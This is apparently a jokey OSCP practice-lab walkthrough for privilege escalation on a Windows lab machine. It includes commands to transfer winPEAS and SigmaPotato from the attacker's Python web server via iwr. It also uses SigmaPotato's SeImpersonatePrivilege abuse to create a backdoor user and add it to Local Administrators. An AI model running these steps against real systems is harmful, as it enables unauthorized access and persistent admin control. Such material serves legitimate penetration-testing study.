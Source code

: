# OSCP-A Walkthrough

Okay we've been given creds to the .141 machine:

<img src="images/creds.png" style="border: 2px solid white"><br>

Let's run a quick portscan to figure out what's going on with this machine. For the time being, I don't care about services I just want to know what ports are open and I'll make assumptions - because time and time again I've proven <i>nothing</i> bad ever comes from making assumptions.

```nmap -T4 -Pn --open --top-ports 10000 192.168.233.141```

<img src="images/nmap.png" style="border: 2px solid white"><br>

Sweet! We have credentials and port 22 is open. Fair assumption, we can probably ssh.

```ssh eric.wallows@192.168.233.141```

<img src="images/ssh.png" style="border: 2px solid white"><br>

Now you may go straight for some common enumeration like `whoami /priv` or `net users` or something but I, a man of culture will waste so much time and instead use winPEAS. Why? Go away that's why.

Let's get winPEAS into the environment. (If you haven't already, <a href="https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS">go download it from here</a>)

And we'll use a Python web server to get the file into the target machine.

On your own machine:

```python3 -m http.server 80```

On your target machine, in <b>Powershell</b> (for those playing along at home change the IP address to your IP. I know it's easy to follow these guides and turn your brain off):

```iwr -uri http://192.168.45.157/winPEASx64.exe -Outfile winPEASx64.exe```

And behold:

<img src="images/iwr.png" style="border: 2px solid white"><br>

Why am I working out of the Downloads folder? Stop asking questions I am literally giving you answers. Be nice.

```.\winPEASx64.exe```

<img src="images/winpeas1.png" style="border: 2px solid white"><br>

Now we're looking for things in <span style="color: #ff0000">RED</span>.

Fun things like this! (Which I pray you never see in client systems but I guarantee you will... you really will...)

<img src="images/noav.png" style="border: 2px solid white"><br>

But what we're looking for are privilege escalation opportunities. The main ones taught through OSCP are:

- Service Binary Injections
- DLL Injections
- Unquoted Service Paths
- Excessive Privileges

If you're stuck with any of these or don't like the sound of them because they're technical and therefore scary, the course content covers them all:

<img src="images/winpriv.png" style="border: 2px solid white"><br>

And what you'll notice from winPEAS is that you can often be overloaded with information.

<img src="images/winpeas2.png" style="border: 2px solid white"><br>

<img src="images/dll.png" style="border: 2px solid white"><br>

<img src="images/winpeas3.png" style="border: 2px solid white"><br>

But what I'm most interested in isn't actually in <span style="color: #ff0000">RED</span>. It's this:

<img src="images/seimpersonate.png" style="border: 2px solid white"><br>

`SeImpersonatePrivilege`

Because just about every time you see this in a hacking challenge, it's what you're supposed to do. According to offsec:<br>

<i>"Non-privileged users with assigned privileges, such as SeImpersonatePrivilege, can potentially abuse those privileges to perform privilege escalation attacks."</i>

Now if you follow course content, they'll get you to use SigmaPotato. Where I've normally used JuicyPotato, I'm going to venture out and try following content for a change. I often find that using the exact tools Offsec teaches you yields better results in their labs.

So let's <a href="https://github.com/tylerdotrar/SigmaPotato/releases/">download SigmaPotato</a>.

And just as we did before, we'll use our Python server to bring it over to the target machine:

```iwr -uri http://192.168.45.157/SigmaPotato.exe -Outfile SigmaPotato.exe```

Theoretically, SigmaPotato should abuse `SeImpersonatePrivilege` to run commands as `NT Authority/SYSTEM`. Let's try it out:

```.\SigmaPotato "whoami"```

<img src="images/sigmafail.png" style="border: 2px solid white"><br>

Awesome, that returned nothing and I have no idea how this works. Let's just follow the content and try adding a user.

The format is `net user <username> <password> /add`

```.\SigmaPotato "net user notanaccountant password /add"```

Password is password come hack me.

<img src="images/sigma2.png" style="border: 2px solid white"><br>

Okay and the moment of truth:

```net user```

<img src="images/netuser.png" style="border: 2px solid white"><br>

Nice! It worked.

Let's go ahead and make the account a Local Administrator while we're at it:

```.\SigmaPotato "net localgroup Administrators notanaccountant /add"```

<img src="images/localadmin.png" style="border: 2px solid white"><br>

We're on fire. 

It's like when you score too many points in <a href="https://www.youtube.com/watch?v=jT5yh2HATEQ">2003's NBA Jam</a> for the PlayStation 2.

<img src="images/nbajam.png" style="border: 2px solid white"><br>


